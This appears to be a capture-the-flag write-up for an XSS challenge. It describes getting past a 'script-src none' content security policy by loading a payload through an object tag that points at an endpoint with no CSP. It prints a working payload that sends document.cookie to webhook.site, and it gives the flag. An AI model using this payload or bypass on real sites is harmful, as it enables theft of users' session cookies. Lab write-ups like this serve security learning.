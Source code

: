 ```yaml
---
created: 2024-06-21T20:15
updated: 2024-08-05T19:26
points: 202
solves: 89
tags:
  - xss
---
```


This page is protected by csp `default-src 'self', script-src 'none'`.

> Ignite it to steal the cookie!

After countless attempts, I've realised that no script will run basically.

But... the endpoint `/username/:id` is open and will return plain text username.
It does not have any CSP.

We can use this for our script payload.

```html
<script>fetch("https://webhook.site",{method:"POST",body:"flag ="+document.cookie})</script>
```

We will then just load it via a object tag in `profile`. This is kinda like a iframe, so CSP won't apply to contents within it.

```html
<object data="/username/e2b49e44-9419-4881-8144-72d17223e3f2" type="text/html"></object>
```

```flag
FLAG{n0scr1p4_c4n_be_d4nger0us}
```
